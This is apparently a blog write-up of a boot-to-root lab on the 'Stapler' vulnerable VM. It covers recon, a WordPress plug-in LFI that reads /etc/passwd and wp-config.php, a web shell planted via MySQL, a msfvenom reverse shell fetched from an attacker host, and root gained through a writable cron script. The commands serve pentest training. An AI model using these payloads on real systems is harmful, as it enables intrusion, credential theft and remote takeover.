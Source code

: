 +++
Description = ""
Tags = [
  "B2R",
]
Categories = [
  "pentesting",
]
menu = "B2R: Stapler"
date = "2016-12-24T23:45:38-05:00"
title = "B2R: Stapler"

+++


Adding the IP address of the VM to the hosts file allows one to cut down on some typing.

![](https://i.imgur.com/cazlgnf.png)

## Executive Summary
This machine had several services running, some of which revealed employee names and accounts that could
later be leveraged to compromise the system. A Wordpress plug-in vulnerability was found and used to extract
database credentials, which then led to a non-privileged shell. Once scanned, it was discovered that a script
ran every 20 minutes as the `root` user and that the script was writable to our non-privileged user. This was
leveraged to create a `root` shell by replacing the file contents with a malicious payload.

## Execution

An initial recon scan on the target revealed the following services:

~~~bash.prettyprint
>> onetwopunch -t ip_addresses.txt -p tcp
~~~
![](https://i.imgur.com/YeosV0b.png)

All together, individual inspection of the services revealed a plethora of information about the company and
its employees. 
This section will cover the most direct route to `root`, 
but see the [Additional Discovery](#additional-discovery) section for that information.

Using `nikto` against the service on port `12380` revealed additional paths using the https protocol. 

~~~bash.prettyprint
>> nikto -host vm:12380
~~~
![](https://i.imgur.com/DTF5i00.png)

The site hosted at `/blogblog` is a Wordpress blog with a vulnerable plug-in, as discovered by `wpscan`.

~~~bash.prettyprint
wpscan -u https://vm:12380/blogblog/
~~~

![](https://i.imgur.com/uzdO1dx.png)
![](https://i.imgur.com/U2NyDnu.png)
![](https://i.imgur.com/LrEOKFq.png)

[This LFI vulnerability](https://www.exploit-db.com/exploits/39646/) allows an attacker to read the contents
of a file on the system by using that file as a "thumbnail" for a post. An attacker could use this to read
the contents of the Wordpress configuration file which has database credentials. The user account list for
this machine was also acquired using this method.

~~~bash.prettyprint
>> curl -k "https://vm:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=9898092807434134&short=rnd&term=rnd&thumb=../../../../../etc/passwd"
>> curl -k "https://vm:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=9898092807434134&short=rnd&term=rnd&thumb=../wp-config.php"
~~~
![](https://i.imgur.com/XMcARrC.png)

By curling the "image" urls, the contents can be read.

![](https://i.imgur.com/CVtnKiK.png)
![](https://i.imgur.com/rfez3zi.png)


With credentials and an open 3306 port, an attacker can log in and create a malicious file that would allow
remote code execution.

~~~bash.prettyprint
>> mysql -h vm -u root -p wordpress

mysql>> SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/root/www/rce.php'
~~~

![](https://i.imgur.com/h0gsLrZ.png)

With remote code execution enabled, an attacker can download a malicious payload that initiates a reverse
shell.

~~~bash.prettyprint
# start a web server to host the payload
>> systemctl start apache2

#create the payload in the web directory
>> msfvenom -p php/meterpreter_reverse_tcp LPORT=443 LHOST=$HOST_IP -t raw > /var/www/html/qq.php

# trigger remote commands that download the payload from the attacker's computer
>> curl "vm/rce.php?cmd=wget 192.168.110.101/qq.php"
>> curl "vm/rce.php?cmd=ls"
~~~

![](https://i.imgur.com/5WdoFhk.png)

A listener/handler is configured and the reverse shell kicked off on the victim computer

~~~bash.prettyprint
>> msfconsole -x "use exploit/multi/handler"

msfconsole>> set PAYLOAD php/meterpreter_reverse_tcp
msfconsolemsfconsole>> set LPORT 443
msfconsole>> exploit -j

# start the shell
>> curl "vm/qq.php"
~~~

![](https://i.imgur.com/Gxqwui2.png)

An attacker can now enumerate the contents of the victim's file system, allowing them identify any vulnerable
or mis-configured services that would allow them to elevate privileges. In this case, a cron script was
running a world-modifiable file as root.

![](https://i.imgur.com/I0kuii9.png)
![](https://i.imgur.com/bg9dpXH.png)


Further inspection of this scheduled task:

![](https://i.imgur.com/WXEowHC.png)

This task runs as the root user. All that was needed to become root was to replace the contents of the script
with a reverse shell.

![](https://i.imgur.com/vFqTefn.png)



## Additional Discovery

SMB enumeration and unprotected shares revealed some employee names and personal notes
![](https://i.imgur.com/VEFkW99.png)

Port 666 was serving a zip file of a screenshot of another personal note. The exif contained some notes for
the attacker.
![](https://i.imgur.com/vJBqGGF.png)

The anonymous ftp login also leaks information.
![](https://i.imgur.com/fW3Nl8k.png)
![](https://i.imgur.com/aFFIp9P.png)

Port 80 scan initially returned what looked like a user's dotfiles. This gave me the idea that someone may be
running a web server from their home directory.
![](https://i.imgur.com/w3143f7.png)

The Wordpress site could have been used as another vector for a shell by adding a reverse shell plug-in. The
users and passwords were crackable with the rockyou word list. Some users also reused their Wordpress
passwords for their machine accounts.

~~~bash.prettyprint
>> wpscan -u https://vm:12380/blogblog/ --enumerate u
~~~

![](https://i.imgur.com/v1GKKbb.png)

Without accessing the computer's `/etc/passwd` file, this gathering of information revealed the existence of
the following employees and a accounts:

~~~bash.prettyprint
barry
dave
elly
fred
garry
harry
heather
john
kathy
pam
peter
scott
tim
vicki
zoe
~~~

